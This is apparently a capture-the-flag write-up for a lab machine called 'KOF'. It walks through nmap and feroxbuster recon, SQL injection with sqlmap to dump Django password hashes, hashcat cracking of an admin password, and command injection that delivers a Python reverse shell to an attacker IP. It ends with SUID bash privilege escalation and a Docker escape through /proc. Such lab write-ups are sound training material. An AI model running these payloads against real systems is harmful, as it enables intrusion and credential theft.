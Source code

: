 # KOF
![index image](../images/kof/index.png)

## Recon
In the beginning, I used NMAP with the following parameters. I found only ports 22 and 8000 open (it seems to be a Django application running on Linux).
```
sudo nmap 172.16.11.225 -Pn -sSVC -T5

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.9.19
|_http-server-header: WSGIServer/0.2 CPython/3.9.19
|_http-title: KOF 2002 Championship
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I performed fuzzing on the Django application using Feroxbuster and discovered three directories: register, panel, and dashboard.
```
feroxbuster -u http://172.16.11.225:8000/

found:5       errors:0      
http://172.16.11.225:8000/ 
http://172.16.11.225:8000/register/ 
http://172.16.11.225:8000/panel/ 
http://172.16.11.225:8000/dashboard/
```
![ferox image](../images/kof/ferox.png)

Upon accessing the page, the most prominent feature is a search field that passes the `q` parameter via GET and displays the searched team.
![q parameter image](../images/kof/q_parameter.png)

When testing this endpoint with SQLMap, it was identified that the database uses SQLite and that the parameter is vulnerable to SQL injection (SQLi).
`python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --risk 3 --level`

![sqlmap 1 image](../images/kof/sqlmap_q1.png)
![sqlmap 2 image](../images/kof/sqlmap_q2.png)

## Exploitation
We can include the `--dbms` sqlite flag to specify that the database in use is SQLite.

To enumerate the database tables, we use the `--tables` option and execute the following arguments: `--dbms sqlite --threads 10`.
```
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --tables --threads 10

[12 tables]
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| authentication_teams       |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
| sqlite_sequence            |
+----------------------------+
```

To discover the columns of a table, we use the `-T table_name --columns` option. In our case, we'll retrieve the columns from the `auth_user` table, as we have a `/panel` endpoint where we can attempt to log in.
```
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user --columns

Table: auth_user
[11 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date_joined  | datetime |
| email        | varchar  |
| first_name   | varchar  |
| id           | integer  |
| is_active    | TEXT     |
| is_staff     | TEXT     |
| is_superuser | TEXT     |
| last_login   | datetime |
| last_name    | varchar  |
| password     | varchar  |
| username     | varchar  |
+--------------+----------+
```

From the `auth_user` table, we want to extract the `username`, `password`, `is_staff`, and `is_superuser` columns. Most likely, the user with `is_staff` and `is_superuser` set to true will be the admin.
```
$ python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user -C username,password,is_staff,is_superuser --dump

Table: auth_user
[3 entries]
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| username | password                                                                                 | is_staff | is_superuser |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| lucas    | pbkdf2_sha256$600000$uK8mOpGqJgz6n8NpSq6sW4$teEmzYbauC23hUiCWchvGVcOxbPkNOIEq4yZ3ZCc2vw= | 0        | 0            |
| sitara   | pbkdf2_sha256$600000$hgmRaAKIjaJXPw15HJtGzM$rcr8QB224t9Rf8e1AKpyfimvWLTJl1r+ZCGTtvKI8X4= | 0        | 0            |
| vanessa  | pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ= | 1        | 1            |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
```

The user "vanessa" is likely the admin. We can use Hashcat to identify the hash type (based on the hash itself, we conclude it’s a PBKDF2-SHA256 from Django). To do this, we extract the hash of the user and save it in a file without an extension, named `hash`. From there, we can attempt to crack the hash using Hashcat with mode `10000` (for PBKDF2-SHA256) and the Rockyou wordlist.
```
hashcat --identify hash

The following hash-mode match the structure of your input hash:

    # | Name                                                       | Category
======+============================================================+======================================
10000 | Django (PBKDF2-SHA256)                                     | Framework
```
```
hashcat -m 10000 hash /usr/share/seclists/Passwords/rockyou.txt

pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ=:princess1
```

Therefore, the admin password for "vanessa" is `princess1`. Upon accessing the `/panel` endpoint with admin creds, we encounter this page.
![panel image](../images/kof/panel1.png)

By clicking to generate an IP and then on "Test Connection," we can analyze the request. A POST request is made to the backend with the CSRF, game, vpn, and test_connection parameters. It seems that this feature tests the connection to another host in some way.
![panel image](../images/kof/panel2.png)

Since the machine doesn't have internet access, it won't be able to reach any public IP. However, if we place a local IP in the `test_connection` parameter, it responds that the connection was successful, and the test indicates that there is a connection.
![panel image](../images/kof/panel3.png)

What might be happening here is that we are directly passing the IP, and the server is executing some action. We can try to establish a reverse connection to our machine by injecting a ; (since it could be executed in bash) and using Python. Payload:
```
;export RHOST="10.0.10.235";export RPORT=1234;python-c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';
```
![shell request image](../images/kof/shell_request.png)
![shell image](../images/kof/shell.png)

To upgrade the shell to a full TTY, we can follow these steps:
* Type `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
* Press `Ctrl+Z` to background the shell as a service.
* Type `stty raw -echo && fg`.
* Press `Enter`.
* Finally, type `export TERM=xterm`.

## Post exploitation
At first glance, using `ps aux`, I identified that we are in a Docker environment. I couldn't find the first flag, meaning the first objective is to escalate to root, and the second is to perform a Docker escape.

After running `linpeas` on the server, I found two endpoints to investigate. Upon analyzing this information, we can conclude that `/usr/bin/bash` may be exploitable (it has the SUID bit set).
```
══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts

-rwsr-xr-x 1 root root 1.3M Apr 23  2023 /usr/bin/bash 

═╣ /proc mounted? ................. Yes
```

```
cp /bin/bash /tmp/ #From non priv inside mounted folder
# You need to copy it from the host as the bash binaries might be diferent in the host and in the container
chown root:root bash #From container as root inside mounted folder
chmod 4777 bash #From container as root inside mounted folder
bash -p #From non priv inside mounted folder
```

By exploiting this, we will escalate privileges to root in order to retrieve the first flag in `/root`.

## Docker escape/breakout
To perform the Docker breakout/escape, I will use the `/proc` endpoint. First, I need to retrieve the Docker process ID by running `ps aux | grep docker`.
![id process image](../images/kof/id_proc.png)

With this, we can access the Docker process directory, navigate to the root directory, and then escape to the root directory of the host machine running the Docker container. So `cd /proc/2741/root/`.

![docker breakout image](../images/kof/doker_breakout.png)

Here are the two flags: one for the default root user after privilege escalation (`flag.txt`), and the other for the Docker breakout (`root.txt`).
**Disclaimer**: Docker breakout can be achieved in other ways, such as using Process Injection.
- [Linux Process Injection - W3ndige](https://github.com/W3ndige/linux-process-injection/)
- [7 Ways to Escape a Container - Panoptica](https://www.panoptica.app/research/7-ways-to-escape-a-container)